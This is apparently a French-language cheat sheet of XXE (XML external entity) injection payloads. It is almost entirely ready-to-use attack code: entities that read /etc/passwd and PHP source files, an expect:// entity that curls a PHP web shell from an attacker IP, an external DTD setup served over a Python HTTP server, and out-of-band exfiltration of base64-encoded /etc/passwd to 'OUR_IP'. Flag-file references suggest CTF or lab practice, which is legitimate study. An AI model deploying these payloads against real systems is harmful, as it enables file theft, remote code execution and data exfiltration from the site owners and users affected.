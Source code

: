 ## Injection de base

```xml
<email>
	&company;
</email>
```

## Inclusion de fichiers locaux (LFI)

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

## Injection avec téléchargement de shell

1. Créer un fichier `shell.php` avec un paramètre

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

## Exploitation avec DTD externe
### Préparation du serveur DTD

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > XXE.dtd
python3 -m http.server 8000
```

### Injection dans la requête XML

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///flag.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://PWNIP:8000/XXE.dtd">
  %xxe;
]>
```

## XXE Out-Of-Band (OOB) Data Exfiltration

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

## Extraction de fichiers en Base64

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.php"> ]>
<root>
    <name>&xxe;</name>
    <details>test</details>
    <date>2021-09-22</date>
</root>
```